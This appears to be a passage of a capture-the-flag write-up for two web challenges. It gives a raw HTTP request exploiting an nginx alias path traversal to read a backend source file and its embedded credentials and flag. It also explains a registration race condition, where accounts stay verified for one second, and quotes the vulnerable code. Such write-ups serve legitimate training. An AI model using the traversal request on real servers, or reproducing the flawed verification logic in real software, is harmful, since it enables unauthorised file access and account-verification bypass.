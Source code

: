 *Solution*

This is an nginx path traversal.

```httpspec
GET /images../secretbackend/index.js HTTP/1.1
Host: exp.cybergame.sk:7000
```
so after identifying it it was easy feeding it to the browser and to spot the index.js file with the suspicious string.

![princess](https://github.com/Daniel-wambua/blogz/blob/main/content/CTF/writeup6/images/index.js%20file.png?raw=true)
```
pr1ncess:SK-CERT{0ff_by_4_s1ngle_sl4sh_f836a8b1}
```

## Shadow Realm

![web](https://github.com/Daniel-wambua/blogz/blob/main/content/CTF/writeup6/images/equetria-shadow%20realm.png?raw=true)

*Solution*

This is a race condition that can be exploited for 1 second from when a user is registered, while `sendEmailToAdministrator` is being executed.

In the sources we can see the developers did not fully finish this functionality:

```js
async function sendEmailToAdministrator(userId, username) {
    // TODO: Implement email sending. We'll just sleep until then.
    await sleep(1000);
    console.log(`🦄 Dark Council notified about new subject: ${username}`);
    return true;
}

app.post("/api/register", async (req, res) => {
    try {
        const {username, password, email} = req.body;

        const {rows} = await dbAsync.query(
            "INSERT INTO users (username, password, email) VALUES ($1, $2, $3) RETURNING id",
            [username, password, email]
        );

        const userId = rows[0].id;
        await sendEmailToAdministrator(userId, username);

        await dbAsync.query("UPDATE users SET verified = false WHERE id = $1", [
            userId,
        ]);
```

The race condition happens because the default value of the verified column in the user table is set to `true` in the database, and it is not specified in the first `INSERT` query.
